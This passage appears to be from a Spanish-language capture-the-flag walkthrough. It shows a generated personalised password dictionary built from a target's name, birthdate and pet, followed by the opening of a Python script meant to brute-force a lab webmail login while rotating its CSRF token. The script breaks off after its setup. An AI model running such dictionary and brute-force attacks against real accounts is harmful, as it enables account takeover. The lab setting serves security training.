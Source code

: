```bash
> First Name: Mur
> Surname: Rusko
> Nickname: mur.rusko
> Birthdate (DDMMYYYY): 20051990

> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 

> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 

> Pet's name: Rufo
> Company name: PhisermansPhriends

> Do you want to add some key words about the victim? Y/[N]: 
> Do you want to add special chars at the end of words? Y/[N]: 
> Do you want to add some random numbers at the end of words? Y/[N]:
> Leet mode? (i.e. leet = 1337) Y/[N]: 

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to mur.txt, counting 3252 words.
> Hyperspeed Print? (Y/n) : n
[+] Now load your pistolero with mur.txt and shoot! Good luck!

```

Si nos fijamos en las peticiones al servicio de mail, vemos que tiene un token CSRF que va cambiando con cada petición. Necesitaremos un script que realice ese cambio de token para poder realizar el ataque de fuerza bruta.

Usamos el siguiente script:

```python
import argparse
import sys
import requests
import re
from multiprocessing.dummy import Pool as ThreadPool

settings = {
    "threads" : 10,
    "username" : "mur.rusko@phisermansphriends.thl",
    "url" : "http://mail.phisermansphriends.thl/"
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0',
    'Accept' : 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8'
}

if (len(sys.argv) > 1):
    console_mode = True
    parser = argparse.ArgumentParser(description='Command line mode')
    parser.add_argument('--threads', '-t', type=int,
                        help='Number of Threads', default=10)

    args = parser.parse_args()
    if (not args.threads):
        print("'--threads' was omitted")
        exit(-1)
```